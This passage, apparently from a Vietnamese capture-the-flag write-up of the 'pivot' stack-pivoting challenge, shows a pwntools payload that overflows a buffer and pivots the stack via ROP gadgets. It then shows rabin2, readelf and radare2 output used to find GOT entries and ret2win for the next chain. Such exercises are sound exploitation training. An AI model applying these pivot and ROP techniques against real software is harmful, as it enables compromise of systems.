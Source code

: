 Lấy input từ stdout và build stack

```text-x-python
line1 = p.recvuntil(b'>')
heap_addr = int(re.search('pivot: (0x\w+)', line1.decode()).group(1), 16)

payload2 = b'A'*40
payload2 += p64(0x4009bb) #0x00000000004009bb: pop rax; ret;
payload2 += p64(heap_addr)
payload2 += p64(0x4009bd) # 0x00000000004009bd: xchg rax, rsp; ret;
p.sendline(payload2)
```

Payload 1: Build ROP chain sẽ thực thi sau khi chuyển hướng

```text-plain
 $ rabin2 -i pivot
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
2   0x004006e0 GLOBAL FUNC       puts
8   0x00400720 GLOBAL FUNC       foothold_function

$ rabin2 -S pivot
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
...
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ rabin2 -is libpivot.so
...
[Symbols]

nth paddr      vaddr      bind   type   size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

$ readelf -r pivot 
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
  ...
000000601020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000601040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 foothold_function + 0

$ radare2 pivot
[0x00400760]> aaa
[0x00400760]> afl
[0x00400760]> s sym.imp.foothold_function
[0x00400720]> pdf
	0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726 ; "&\a@"
```

